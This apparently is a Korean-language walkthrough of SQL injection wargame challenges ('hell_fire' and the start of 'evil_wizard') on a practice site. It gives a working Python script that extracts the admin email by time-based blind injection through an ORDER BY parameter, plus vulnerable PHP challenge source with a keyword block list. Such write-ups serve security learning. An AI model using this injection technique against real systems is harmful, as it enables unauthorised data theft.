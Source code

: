 ![hell-fire-list](/assets/img/post/hell_fire.png)<br>
DB에 저장된 값을 볼 수 있지만 admin의 email값은 ***로 마스킹 되어있어 볼 수 없었다.<br>
DB 쿼리가 성공했을 때의 반응이 없기 때문에 Timebased를 사용해서 email을 알아낼 것이다.
Darkeye 문제에서 사용한 code에서 union구문 대신 sleep구문을 사용할 것이다.<br>

```python
import requests
import time

url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  param = {'order': f"if(id='admin' and length(email)={len},sleep(1), 1)#"}
  start = time.time()
  res = requests.get(url=url, params=param, cookies=cookie)
  end = time.time()
  if end - start > 0.5:
    print(len)
    break

length = 28
email = ""
for len in range(1, length+1):
  for char in range(ord('0'), ord('z')):
    param = {'order': f"if(id='admin' and ord(substr(email,{str(len)},1))={str(char)}, sleep(1), 1)#"}
    start = time.time()
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start > 0.5:
      email += chr(char)
      print(email)
      break
        
print(email.lower())
```
<br>

## Evil_wizard
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
```